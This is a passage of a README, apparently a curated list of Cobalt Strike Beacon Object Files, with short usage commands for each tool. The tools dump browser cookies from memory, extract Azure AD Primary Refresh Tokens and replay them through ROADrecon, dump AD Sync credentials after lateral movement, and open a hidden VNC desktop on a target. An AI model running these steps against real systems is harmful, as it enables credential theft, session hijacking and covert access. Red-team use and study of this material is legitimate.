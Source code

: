 # CookieKatz-BOF
cookie-katz-find --> Find target browser processes supported
cookie-katz [chrome|edge|webview] [pid] --> Dump browser Cookies using OpenProcess and ReadProcessMemory API
```

- [**aad_prt_bof**](https://github.com/wotwot563/aad_prt_bof)<br />
Extract Azure AD (AAD) Primary Refresh Token (PRT) from the machine.<br />
Load the CNA and follow the instructions in the BOFs README, shown below:<br />

1. Request a nonce using ROADrecon (on your own machine): `roadrecon auth --prt-init`
2. Request a token on the target machine using the BOF: `aadprt [NONCE]`
3. Use the token to authenticate in ROADrecon (or any other tool): `roadrecon auth --prt-cookie [TOKEN]`

- [**ADSyncDump-BOF**](https://github.com/Paradoxis/ADSyncDump-BOF)<br />
BOF version of Dirk-jan's Azure AD [adconnectdump](https://github.com/dirkjanm/adconnectdump) toolset.<br />
Built for Cobalt Strike and Sliver.<br />
```
# Move laterally to the AD Sync Server and run the BOF as SYSTEM or the AD Sync account
adsyncdump
```

---
### Miscellaneous
- [**BOF Template**](https://github.com/Cobalt-Strike/bof_template)<br />
Used for creating your very own BOFs!

- [**Cobalt Strike Blog: Simplifying BOF development**](https://www.cobaltstrike.com/blog/simplifying-bof-development)<br />
BOFs in Cobalt Strike can now be written in C++ as of August, 2023.

- [**BOF Hound**](https://github.com/fortalice/bofhound)<br />
An offline BloodHound ingestor and LDAP parser to be used with TrustedSec's ["ldapsearch"](https://github.com/trustedsec/CS-Situational-Awareness-BOF).<br />
Use ldapsearch in Cobalt Strike to gather data and then use bofhound on your CS logs to generate JSON files for importing into BloodHound.<br />
```bofhound -o /data/```

- [**Help Color**](https://github.com/outflanknl/HelpColor)<br />
Color helper Aggressor script for coloring "help" output based on command type and OPSEC<br />
```helpx```

- [**Hidden Desktop BOF**](https://github.com/WKL-Sec/HiddenDesktop)<br />
Uses VNC connection and server to create a hidden remote desktop connection to your target instead of using RDP. <br />
```
Start the HVNC server first
HiddenDesktop <server> <port> --> Start a hidden desktop client connection to your listening server
hd-launch-explorer --> Then start the Windows explorer browser which should pop up a new window on your system
```
